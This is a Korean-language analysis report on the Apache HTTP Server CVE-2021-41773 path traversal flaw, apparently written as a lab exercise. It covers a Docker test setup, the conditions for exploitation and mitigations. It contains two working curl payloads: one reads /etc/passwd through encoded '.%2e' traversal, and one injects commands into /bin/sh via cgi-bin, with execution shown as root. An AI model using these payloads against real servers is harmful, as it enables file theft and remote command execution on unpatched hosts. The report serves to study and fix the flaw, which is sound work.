


# CVE-2021-41773 취약점 분석 보고서

## 1. 취약점 요약

- 개요: Apache HTTP Server 2.4.49 ~ 2.4.50버전에서 URL 경로를 정규화하는 과정의 결함(`ap_normalize_path` 함수의 경로 제어 문자 검증 미흡)으로 인해 발생한 취약점
- 영향: 공격자는 URL 인코딩을 악용하여 Document Root 외부의 파일 시스템에 Path Traversal을 통해 접근할 수 있으며, 서버에 `mod_cgi` 모듈이 활성화되어 있는 경우 RCE로 연계될 수 있음.
- 위험도: **9.8 (Critical)** / `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H`

## 2. 환경 구성

- `docker-compose.yml`과 사전에 취약하도록 조정된 `httpd.conf` 파일만을 매핑하여 명령어 한 줄로 재현되는 환경 구성

`docker-compose.yml`

```yaml
version: '3.8'

services:
  vuln-httpd:
    image: httpd:2.4.49
    ports:
      - "8080:80"
    volumes:
      - ./httpd.conf:/usr/local/apache2/conf/httpd.conf
```

## 3. 취약 조건

- 본 취약점이 정상적으로 작동하기 위해선 아래의 조건이 충족되어야 한다.
1.  Apache HTTP Server 2.4.49 또는 2.4.50 버전으로 구동되는 서버여야 한다.
2. `httpd.conf` 내에서 상위 경로 혹은 타깃 시스템 경로에 대하여 접근이 통제되지 않고 허용되어 있어야 한다.
3. `mod_cgi` 모듈이 로드(`LoadModule cgi_module modules/mod_cgi.so`)되어 있고, 호출할 쉘 스크립트 엔진(예: `/bin/sh`)에 실행 권한이 있어야 한다. 이는 RCE를 위한 조건이다.

## 4. 재현 절차

1. `docker-compose.yml`, `httpd.conf`이 위치한 폴더에서 컨테이너를 구동한다.
    
    ```
    docker compose up -d
    ```
    
2. `curl` 자체의 선행 경로 정규화를 차단하기 위해 `-path-as-is` 옵션을 필수로 지정하여 공격 페이로드를 전송한다. 이때 `curl`은 `curl.exe`로 명시적 지정하여 실행한다.

## 5. PoC 코드

### 5.1. Path Traversal PoC

URL 파싱 과정에서 `.%2e` 패턴이 `..` 경로로 적절히 필터링되지 않는 점을 이용해 Document Root를 이탈하여 시스템 내부 파일인 `/etc/passwd` 파일을 참조하도록 한다.

```
curl.exe -s --path-as-is "http://localhost:8080/icons/.%2e/.%2e/.%2e/.%2e/etc/passwd"
```

### 5.2. RCE PoC

CGI 매핑 경로인 `cgi-bin` 을 우회 경유하여 `/bin/sh`를  직접 호출하고 명령어를 주입한다. 

```
curl.exe -s --path-as-is --data "echo; id; pwd" "http://localhost:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh"
```

## 6. 실행 결과

제출된 파일 그대로 깨끗한 환경에서 검증한 결과, 두 PoC 모두 수정 없이 100% 성공적으로 재현됨을 확인했습니다. 증적 스크린샷은 레포지토리 내 상대 경로를 참조합니다.

- **Path Traversal 실행 결과**



- **RCE 실행 결과**
 `uid=0(root)`의 권한으로 명령어가 수행된다.



## 7. 대응 방안

1. 보안 패치 및 업그레이드: 본 취약점의 근본적인 원인이 해결된 공식 최신 버전(2.4.51 이상)으로 업데이트를 수행한다.
2. 기본 접근 통제 설정 강화: `httpd.conf` 파일 내에서 명시적인 권한이 필요한 경로 외의 모든 루트 디렉토리 설정을 `Require all denied`로 변경하여 비인가 접근을 차단한다.
3. 불필요한 기능 모듈 비활성화: 외부 스크립트 연계 및 CGI 기능이 불필요한 인프라 구조라면 `mod_cgi` 모듈 로드 설정을 주석 처리하여 공격 표면을 최소화한다.